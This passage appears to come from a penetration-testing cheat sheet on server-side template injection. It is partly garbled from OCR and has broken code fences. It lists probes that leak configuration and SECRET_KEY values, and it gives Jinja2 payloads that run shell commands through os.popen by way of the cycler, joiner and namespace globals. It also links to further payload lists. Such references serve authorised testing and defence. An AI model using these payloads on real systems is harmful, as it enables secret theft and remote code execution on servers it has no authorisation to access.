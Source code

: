 ```
- `${7*7} = ${7*7}`
- `{{foobar}} Nothing`
- `{{4*4}}[[5*5]]`
- `{{7*'7'}} = 7777777`
- `{{config}}`
- `{{config.items()}}`
- `{{settings.SECRET_KEY}}`
- `{{settings}}`
- `<div data-gb-custom-block data-tag="debug"></div>`

```python
{% raw %}
{% debug %}
{% endraw %}





{{settings.SECRET_KEY}}
{{4*4}}[[5*5]]
{{7*'7'}} would result in 7777777
```
```
**Jinja2 - Template format**

```python
{% raw %}
{% extends "layout.html" %}
{% block body %}
  <ul>
  {% for user in users %}
    - [[{{ user.url }}|{{ user.username }}]]

  {% endfor %}
  </ul>
{% endblock %}
{% endraw %}

```
```
[[https://podalirius.net/en/articles/python-vulnerabilities-code-execution-in-jinja-templates/|**RCE not dependant from**]] `__builtins__`:

```python
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }}
{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('id').read() }}

# Or in the shotest versions:
{{ cycler.__init__.__globals__.os.popen('id').read() }}
{{ joiner.__init__.__globals__.os.popen('id').read() }}
{{ namespace.__init__.__globals__.os.popen('id').read() }}
```
```
**More details about how to abuse Jinja**:

[[jinja2-ssti.md]]

Other payloads in [[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2|https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2]]

### Mako (Python)

```